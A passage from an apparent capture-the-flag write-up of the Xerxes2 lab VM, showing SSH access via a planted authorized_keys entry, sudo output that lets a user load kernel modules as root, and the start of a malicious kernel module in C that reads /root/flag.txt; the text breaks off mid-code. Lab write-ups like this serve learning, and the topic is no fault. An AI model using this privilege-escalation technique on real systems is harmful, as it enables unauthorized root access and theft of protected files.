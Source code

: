 
Once again, my public key is echo'd into .ssh/authorized_keys, and I am able to SSH in from my client.



* * *





## Holding the Con with Anatoly


![](http://img1.wikia.nocookie.net/__cb20120107145214/shodan/images/e/e1/Korenchkin.png)

With great power comes great responsibility.  This is [Anatoly Korenchkin](http://shodan.wikia.com/wiki/Anatoly_Korenchkin).

Korenchkin must be able to do some important stuff - after all he worked alongside the captain of the Von Braun. Turns out my suspicion was correct


``` bash

korenchkin@xerxes2:~$ sudo -l
Matching Defaults entries for korenchkin on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User korenchkin may run the following commands on this host:
    (root) NOPASSWD: /sbin/insmod, (root) /sbin/rmmod
korenchkin@xerxes2:~$  
```


Korenchkin can load and remove kernel modules as root without a password. This could be interesting as I have no idea about how kernel modules work. I started off compiling and loading a simple Hello World module from [TheGeekStuff](http://www.thegeekstuff.com/2013/07/write-linux-kernel-module/). It worked ! But can I make a malicious kernel module - possibly one that can read /root/flag.txt ? Yup, and here's the code to do it.

[c]
#include <linux/module.h>  // Needed by all modules
#include <linux/kernel.h>  // Needed for KERN_INFO
#include <linux/fs.h>      // Needed by filp
#include <asm/uaccess.h>   // Needed by segment descriptors

int init_module(void)
{
    // Create variables
    struct file *f;
    char buf[1024];
    mm_segment_t fs;
    int i;
    // Init the buffer with 0
    for(i=0;i<1024;i++)
        buf[i] = 0;
    // To see in /var/log/messages that the module is operating
    printk(KERN_INFO "My module is loaded\n");
    // I am using Fedora and for the test I have chosen following file
    // Obviously it is much smaller than the 128 bytes, but hell with it =)
    f = filp_open("/root/flag.txt", O_RDONLY, 0);
    if(f == NULL)
        printk(KERN_ALERT "filp_open error!!.\n");
    else{
        // Get current segment descriptor
        fs = get_fs();
        // Set segment descriptor associated to kernel space
        set_fs(get_ds());